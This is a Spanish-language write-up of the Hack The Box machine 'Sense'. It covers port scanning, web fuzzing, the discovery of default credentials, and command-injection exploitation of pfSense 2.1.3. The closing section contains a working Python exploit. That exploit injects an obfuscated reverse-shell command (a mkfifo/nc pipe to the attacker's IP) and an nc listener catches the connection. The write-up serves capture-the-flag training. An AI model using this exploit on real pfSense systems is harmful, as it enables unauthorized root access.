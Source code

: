 ```yaml
---
layout: post
title: HTB_Sense
date: 2023/07/10
---
```


# Sense {-}

## Introduccion {-}

La maquina del dia se llama Sense.

El replay del live se puede ver aqui

[![S4vitaar Doctor maquina](https://img.youtube.com/vi/WeaLhmbatT0/0.jpg)](https://www.youtube.com/watch?v=WeaLhmbatT0)

Esta maquina hace parte de una sesion intensa y se puede ver a partir de 3:39:30.

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.60
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.60
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.60 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,443 10.10.10.60 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 80     | http          | Web, Fuzzing       |                      |
| 443    | https         | Web, Fuzzing       |                      |



### Analyzando la web {-}


#### Checkear la web {-}

Si entramos en la url `https://10.10.10.60`, vemos un panel de authentificacion de pfsense.
Teniendo esto en cuenta, miramos por internet si existen credenciales por defecto para este servicio.

Encontramos admin:pfsense pero no funcciona. Vamos a fuzzear la web

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php-html http://10.10.10.60/FUZZ.FUZ2Z
```

Aqui vemos routas como:

- stats.php
- help.php
- edit.php
- system.php
- exec.php
- system-users.txt

Los recursos php nos hace un redirect a la pagina de login y la routa system-users.txt hay un mensaje para crear el usuario rohit con el 
password por defecto de la compania. probamos

```bash
rohit:pfsense
```

Hemos podido entrar. Vemos la version del servicio pfsense que es la 2.1.3.
## Vulnerability Assessment {-}

### pfSense {-}


```bash
searchsploit pfsense 2.1.3
```

Vemos un exploit de typo Command Injection.

```bash
searchsploit -m 43560
mv 43560.py pfsense_exploit_rce.py
python3 pfsense_exploit_rce.py -h
```





## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

En el panel de ayuda vemos que nos pide nuestra ip y un puerto.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script

    ```bash
    python pfsense_exploit_rce.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 443 --username rohit --password pfsense
    ```

```bash
whoami
#Output
root
```

Oh my gaaaaadddddddd!!!!!!!!!

La idea aqui es crearnos nuestro proprio script en python

### Nuestro exploit {-}

```python
#!/usr/bin/python3

from pwn import *

import pdb
import urllib3
import html

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "https://10.10.10.60/index.php"
rce_url = "https://10.10.10.60/status_rrd_graph_img.php?database=queues;"
burpsuite = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    s = requests.session()
    urllib3.disable_warnings()
    s.verify = False
    r = s.get(main_url)

    csrfMagic = re.findall(r'__csrf_magic\' value="(.*?)"', r.text)[0]

    data_post = {
        '__csrf_magic': csrfMagic,
        'usernamefld': 'rohit',
        'passwordfld': 'pfsense',
        'login': 'Login'
    }

    r = s.post(main_url, data=data_post)

    p1.success("Authenticacion realizada exitosamente como el usuario rohit")

    p2 = log.progress("RCE")
    p2.status("Ejecutando comando a nivel de sistema")

    r = s.get(rce_url + '''ampersand=$(printf+\"\\46\");guion=$(printf+\"\\55\");rm+${HOME}tmp${HOME}f;mkfifo+${HOME}tmp${HOME}f;
    cat+${HOME}tmp${HOME}f|${HOME}bin${HOME}sh+${guion}i+2>${ampersand}1|nc+10.10.14.7+443+>${HOME}tmp${HOME}f''')
    
if __name__ == '__main__':

    p1 = log.progress("Authenticacion")
    p2 = log.progress("RCE")
    p1.status("Iniciando proceso de autenticacion")
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p2.failure("No se ha obtenido ninguna conexion")
    else:
        p2.success("Se ha obtenido una conexion")
        shell.interactive()
```